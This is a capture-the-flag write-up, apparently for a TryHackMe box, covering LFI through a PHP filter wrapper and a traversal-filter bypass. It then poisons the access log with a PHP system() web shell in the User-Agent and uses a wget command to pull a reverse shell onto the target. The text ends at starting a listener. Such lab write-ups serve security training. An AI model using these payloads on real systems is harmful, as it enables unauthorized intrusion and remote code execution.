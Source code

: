 ```yaml
---
layout: post
title: Archangel
categories: Privesc
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

# NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![](https://i.ibb.co/TWTBYN0/mafia.png)

# LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.
![](https://i.ibb.co/kQRKnYg/wfuzz.png)
And we get a hit for **robots.txt**. which when we visit the page looks something like this.
![](https://i.ibb.co/vv2SyZj/robots.png)

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.
![](https://i.ibb.co/VYM0RyP/control.png)
We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![](https://i.ibb.co/pnGV1tK/testbase64.png)
![](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
# Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

# SHELL
So we are going to get a sample php reverseshell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next we are going to set up a python server on our machine. 
Next we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machin e.
![](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine




